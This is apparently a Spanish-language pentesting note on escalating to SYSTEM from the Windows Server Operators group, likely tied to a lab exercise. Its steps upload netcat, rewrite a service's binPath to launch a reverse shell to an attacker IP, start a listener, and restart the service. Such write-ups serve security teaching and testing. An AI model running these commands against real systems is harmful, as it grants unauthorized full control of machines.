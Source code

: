 # Privilege Escalation: Server Operator Group

## Descripción del grupo

El grupo **Server Operators** es una categoría especial de usuarios en entornos Windows que tiene acceso a comandos y configuraciones avanzadas del sistema. Aunque no son administradores completos, sus privilegios les permiten:

- Supervisar el rendimiento del servidor  
- Gestionar la seguridad del sistema  
- Instalar actualizaciones de software  
- Crear y mantener cuentas de usuario  
- Realizar tareas de mantenimiento

Este grupo suele estar destinado a roles de soporte técnico o administración de servidores.

## Vector de escalada

Ser miembro del grupo **Server Operators** no es una vulnerabilidad por sí misma. Sin embargo, los privilegios que otorga pueden ser aprovechados por un atacante para **escalar a SYSTEM**, especialmente si se combinan con servicios mal configurados.

Este vector es frecuentemente ignorado, pero puede ser **letal** si se explota correctamente.

---

## Explotación práctica

### 1. Subida del binario

Subimos el binario de Netcat (`nc.exe`) a la máquina Windows comprometida. Por ejemplo:

```plaintext
C:\Users\svc-printer\Documents\nc.exe
```

### 2. Enumeración de servicios

Listamos los servicios del sistema (`services`) para identificar alguno que:

- Se ejecute con privilegios elevados  
- Sea modificable por el usuario actual  

No todos serán editables, pero conviene probar varios.

### 3. Modificación del binPath

Elegimos un servicio vulnerable (por ejemplo, `VMTools`) y modificamos su ruta de ejecución (`binPath`) para que lance Netcat con una reverse shell:

```bash
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe -e cmd 10.10.14.3 443"
```

### 4. Escucha en local

Nos ponemos a la escucha en nuestra máquina atacante:

```bash
nc -lvnp 443
```

### 5. Reinicio del servicio

Parar e iniciar el servicio para ejecutar el nuevo binario:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

### Resultado

Recibimos una **reverse shell como NT AUTHORITY\SYSTEM**, logrando la escalada de privilegios.